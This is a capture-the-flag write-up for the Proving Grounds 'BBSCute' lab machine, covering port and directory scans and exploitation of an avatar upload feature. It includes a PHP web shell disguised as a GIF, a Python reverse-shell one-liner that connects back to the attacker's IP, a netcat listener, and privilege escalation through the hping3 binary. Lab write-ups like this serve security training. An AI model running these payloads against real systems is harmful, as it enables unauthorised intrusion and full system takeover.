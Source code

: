 ```yaml
---
title: "Proving grounds Play: BBSCute"
layout: post
date: 2023-09-30 02:00
categories: writeup
---
```


Proving grounds Play - BBSCute CTF writeup.

## Nmap

```sh
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
995/tcp open  ssl/pop3 Courier pop3d
```

## 80/tcp - open  http - Apache httpd 2.4.38 ((Debian))

```sh
naveenj@hackerspace:|00:36|~/pg-play/BBSCute$ dirsearch -u http://192.168.151.128/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -r -t 60 --full-url

Target: http://192.168.151.128/

[00:37:05] Starting: 
[00:37:21] 301 -  317B  - http://192.168.151.128/core  ->  http://192.168.151.128/core/     (Added to queue)
[00:37:23] 301 -  317B  - http://192.168.151.128/docs  ->  http://192.168.151.128/docs/     (Added to queue)
[00:37:24] 200 -    1KB - http://192.168.151.128/favicon.ico
[00:37:27] 200 -   10KB - http://192.168.151.128/index.html
[00:37:28] 200 -    6KB - http://192.168.151.128/index.php  #login page
```

## http://192.168.151.128/index.php

![img](/assets/images/CTF/Proving_Grounds/BBSCute/web.png)

Register ➡️ login ➡️ Upload Avatar ➡️ upload reverse shell/php code execution code as avatar.

***Note:*** In order to do a successfull registration the CAPTCHA must be sumitted and which is not available on the registration page. So it can be obtained by viewing the CAPTCHA page source `view-source:http://192.168.151.128/captcha.php`

**Upload.php**

```sh
GIF98;
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

**Trigger Payload**: `http://192.168.151.128/uploads/avatar_naveenj_upload.php?cmd=id`

Check the python version using `which python` command the create the reverse shell code.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.204",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

## Initial Foothold

```sh
naveenj@hackerspace:|01:17|~/pg-play/BBSCute$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.128] 60944
www-data@cute:/var/www/html/uploads$ 
```

## Privilege Escalation

Enumerate user executable permissions using `sudo -l`.

```sh
www-data@cute:/$ sudo -l    #check executable permissions
sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp    
    www-data@cute:/$ ls -al /usr/sbin/hping3
ls -al /usr/sbin/hping3
-rwsr-sr-x 1 root root 156808 Sep  6  2014 /usr/sbin/hping3
```

The binary can be run as root without password.

```sh
www-data@cute:/$ hping3
hping3
hping3> whoami
whoami
root    #root obtained
hping3> id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
hping3>
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).